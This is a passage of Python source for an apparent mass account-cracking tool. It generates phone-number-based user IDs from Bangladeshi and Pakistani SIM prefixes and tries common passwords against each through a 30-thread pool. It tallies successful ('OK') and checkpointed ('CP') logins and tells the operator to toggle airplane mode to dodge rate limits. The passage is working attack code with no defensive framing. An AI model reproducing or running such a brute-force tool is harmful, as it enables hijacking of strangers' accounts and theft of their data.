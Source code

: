         plist.append('last8')
        plist.append('last11')
        plist.append('sabbir')
        plist.append('Bangladesh')
        plist.append('bangladesh')
        plist.append('708090')
        plist.append('saiful')
        plist.append('shakil')
        plist.append('112244')
        plist.append('008899')
        plist.append('jannat')
        plist.append('arafat')
    elif __CH__ in ["B","b","2"]:
        psl = int(input(f' {red}[{green}●{red}] {green}INPUT PASS LIMITS {red}➠ {green}'));line()
        print(f" {red}[{green}●{red}] {green}EXAMPLE {red}➠{green} first6,first8,last6,last8")
        line()
        for i in range(psl):
            plist.append(input(f' {red}[{green}●{red}] {green}PASSWORD NO.{i+1} {red}➠ {green}'));line()
    for x in range(limit):
        nmp = "". join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    clear()
    with ThreadPoolExecutor(max_workers=30) as error:
        clear()
        print(f' {red}[{green}●{red}]{green} SIM CODE  {red}:{green} {code} {red}➠{green} METHOD {red}: {green}{mtd}')
        print(f' {red}[{green}●{red}]{green} TOTAL UID {red}:{green} %s ' %len(user))
        print(f' {red}[{green}●{red}]{green} TURN {red}[{white}ON{red}/{white}OFF{red}]{green} AIRPLANE MODE EVERY {white}4{green} MIN');line()
        for love in user:
            ids = code + love
            xxc= [love,ids,love[1:],love[2:],ids[5:],ids[4:],ids[3:],ids[2:],ids[1:],ids[0:],ids[:6],ids[:7],ids[:8],ids[:9],ids[:10]]
            tl = len(user)
            psd = xxc
            psd = plist
            if mtd in ['A','a','01','1']:error.submit(randm, ids, psd,tl)
            elif mtd in ['B','b','02','2']:error.submit(randm1, ids, psd,tl)
            elif mtd in ['C','c','03','3']:error.submit(randm2, ids, psd,tl)
            elif mtd in ['D','d','04','4']:error.submit(randm3, ids, psd,tl)
            elif mtd in ['5','e','05','E']:error.submit(randm4, ids, psd,tl)
            elif mtd in ['6','f','06','F']:error.submit(randm5, ids, psd,tl)
    print('')
    print(f'\r{red}◆{white}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━{red}◆{white}')
    print(f' {red}[{green}●{red}]{green} THE PROCESS HAS BEEN COMPLETE...')
    print(f' {red}[{green}●{red}]{green} TOTAL OK {red}:{green} %s' % str(len(oks)))
    print(f' {red}[{green}●{red}]{green} TOTAL CP {red}:{green} %s' % str(len(cps)))
    print(f'\r{red}◆{white}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━{red}◆{white}')
    input(f" {red}[{green}●{red}]{green} PRESS ENTER TO BACK MENU ")
    ___ImRAn___MaIN___MenU___()
#---------PAKISTHAN
def ___PK___():
    clear()
    print(f' {red}[{green}◆{red}] {green}SIM CODES {red}➠ {green}0315 0345 0333');line()
    code = input(f' {red}[{green}◆{red}]{green} Choice    {red}➠ {green}');clear()
    print(f' {red}[{green}◆{red}] {green}EXAMPLE {red}  ➠ {green}10000 20000 30000');line()
    limit = int(input(f' {red}[{green}◆{red}] {green}LIMITS    {red}➠ {green}'));line()
    plist = []
    clear()
    print(f" \x1b[38;5;160m[\033[1;37mA\x1b[38;5;160m]\x1b[38;5;46m METHOD 1\n \x1b[38;5;160m[\033[1;37mB\x1b[38;5;160m]\x1b[38;5;46m METHOD 2\n \x1b[38;5;160m[\033[1;37mC\x1b[38;5;160m]\x1b[38;5;46m METHOD 3\n \x1b[38;5;160m[\033[1;37mD\x1b[38;5;160m]\x1b[38;5;46m METHOD 4\n \x1b[38;5;160m[\033[1;37mE\x1b[38;5;160m]\x1b[38;5;46m METHOD 5\n \x1b[38;5;160m[\033[1;37mF\x1b[38;5;160m]\x1b[38;5;46m METHOD 6");line()